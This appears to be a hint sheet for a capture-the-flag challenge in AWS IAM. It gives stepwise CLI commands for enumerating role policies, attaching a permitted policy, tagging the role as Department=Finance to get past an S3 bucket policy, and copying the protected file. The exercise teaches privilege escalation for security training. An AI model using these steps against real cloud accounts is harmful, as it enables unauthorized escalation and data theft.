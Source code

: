 Hint 1: 
You will need to list the attached role policies

Hint 2:
aws iam list-attached-role-policies --role-name cross-account-9 --profile xaccount9

Hint 3:
You need to list the policy versions before you can query the exact policy. 
aws iam list-policy-versions --policy-arn "arn:aws:iam::555503665675:policy/<policy_found_in_previous_step>" --profile <profile_name>

Hint 4: 
aws iam get-policy-version --policy-arn "arn:aws:iam::555503665675:policy/<policy_found_in_previous_step>" --version-id <version_from_previous_step> --profile <profile_name>

Hint 5: 
aws iam attach-role-policy --policy-arn arn:aws:iam::555503665675:policy/<policy_name_that_you_can_attach> --role-name cross-account-# --profile <profile_name>

Hint 6: Notice there's a permission to attach a specific policy!

Hint 7: Let's see what the new policy can do.

Hint 8:
Try listing all S3 buckets, and check out its policy. Notice the bucket is checking for the Department Attribute?

Hint 9: aws s3api get-bucket-policy --bucket <name_of_bucket_listed_starting_with_ctf> --profile <profile_name>

Hint 10: Try tagging your role and see if you can access the data.

Hint 11: aws iam tag-role --role-name cross-account-# --tags Key=Department,Value=Finance --profile <profile_name>

Hint 12: aws s3 cp s3://<bucket_name>/<file_name>> ./<dest_file_name> --profile <profile_name>